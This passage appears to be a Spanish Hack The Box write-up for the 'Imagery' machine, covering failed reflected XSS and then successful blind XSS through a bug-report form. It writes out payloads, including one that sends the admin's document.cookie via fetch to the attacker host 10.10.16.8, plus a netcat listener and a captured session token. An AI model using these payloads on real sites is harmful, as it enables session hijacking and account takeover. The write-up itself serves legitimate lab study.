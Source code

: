 ![](htb-writeup-imagery/imagery12.png)

En la anterior imagen observamos un apartado de `group` `Add New Group` `Save Group` pero no podemos modificar este como el usuario `mrincreible`

Primero estamos entendiendo de que manera funciona la aplicacion web para buscar vias de explotacion. Una de ellas se observa a la hora de reflejar el campo `title` y `description`, vamos a intentar inyectar una carga XSS en estos campos.

```bash
test"><script>alert(0)</script>
```

![](htb-writeup-imagery/imagery13.png)

![](htb-writeup-imagery/imagery14.png)

Al parecer el codigo harcodea y sanitiza bien las entradas en esos campos.

Observando bien a fondo la web nos encontramos con una seccion llamada `Report Bug`

![](htb-writeup-imagery/imagery15.png)

![](htb-writeup-imagery/imagery16.png)

En estos campos de `Bug Name` y `Bug Details` voy a poner una carga XSS, siempre pongo en todos los campos para estar seguro del ataque ya que no sabemos cual de los campos es el vulnerable.

```bash
<img src="http://10.10.16.8/poc.jpg">
```

mientras nos ponemos en escucha con netcat por el puerto 80, ya que la imagen la va a cargar de mi HOST como poc.jpg

```bash
nc -nlvp 80
```

![](htb-writeup-imagery/imagery17.png)

Funciona!!!. Esto ya seria un Blind XSS (XSS a Ciegas), quiero creer que el reporte lo abre algun administrador, vamos a preparar una carga `XSS` para secuestrar la sesion del admin.

### Blind XSS to Admin Account

```bash
<img src=x onerror=fetch('http://10.10.16.8/?c='+document.cookie);>
```

![](htb-writeup-imagery/imagery18.png)

Como observamos en la imagen tuvimos errores en nc y optamos por ponernos en escucha por el puerto 80 con `python` teniendo exito.

```bash
.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aPwk2Q.rf7KI0Y79__1S5ABZshZnMkv3H8
```
